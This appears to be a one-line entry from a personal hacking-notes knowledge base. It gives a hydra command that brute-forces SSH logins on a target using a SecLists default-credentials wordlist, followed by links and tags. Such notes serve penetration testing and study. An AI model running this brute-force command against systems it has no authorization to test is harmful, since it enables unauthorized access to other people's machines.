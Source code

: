 # brute force default credentials ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

` zet/20221003150805/README.md `

# Related

- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:

    #command #hacking #hydra 
